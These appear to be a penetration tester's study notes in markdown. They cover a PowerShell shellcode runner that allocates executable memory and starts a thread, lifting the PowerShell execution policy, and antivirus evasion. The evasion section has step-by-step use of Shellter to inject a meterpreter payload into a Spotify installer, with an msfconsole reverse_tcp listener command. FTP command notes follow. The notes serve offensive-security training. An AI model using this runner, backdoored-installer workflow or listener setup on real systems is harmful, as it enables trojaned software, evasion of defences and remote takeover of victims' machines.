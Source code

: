 $size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
``
- Change GPO policy of current user in Windows
	- (Using Powershell)
	- Get policy
		- Get-ExecutionPolicy -Scope CurrentUser
	- Set policy
		- Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

### Automating AV Evasion
- Shellter
	- designed to run on windows
	- dynamic shellcode injection tool 
		1.  uses a number of novel and advanced techniques to backdoor a valid and non-malicious executable file with a malicious shellcode payload
		2.  performs a thorough analysis of the target PE file and the execution paths
		3.  determines where it can inject our shellcode without relying on traditional injection techniques
		4. attempts to use the existing PE Import Address Table (IAT) entries to locate functions that will be used for the memory allocation, transfer, and execution of our payload
	- shelter pro = even more bad ass
	- example:
		1. apt-cache search shellter
		2.  sudo apt install shellter
			- /usr/share/windows-resources/shellter/shellter.exe
		3. add installer location of PE
			- **/home/kali/desktop/spotifysetup.exe**
		4. Stealth Mode
			- attempts to restore the execution flow of the PE post exploit
			- custom payloads need to terminate by exiting the current thread
		5. Set parameters
		6. Shelter will inject the payload into the Spotify installer and attempt to reach the first instruction of the payload
		7. Configure listener on Kali with the meterpreter payload.
			- msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;
		8. transfer backdoored installer over to the TGT
			- Shellter obfuscates both the payload as well as the payload decoder before injecting them into the PE
- FTP
	- set FTP session to active
		- -A
	- set FTP session to anonymous
		- -a
	- local pwd
		- lpwd
	- change directory on the local machine
		- lcd
	- change directory on the target machine
		- cd
	- copy file from remote to local machine
		- get
		- mget
	- copy file from local to remote machine
		- put
		- mput
	- enable binary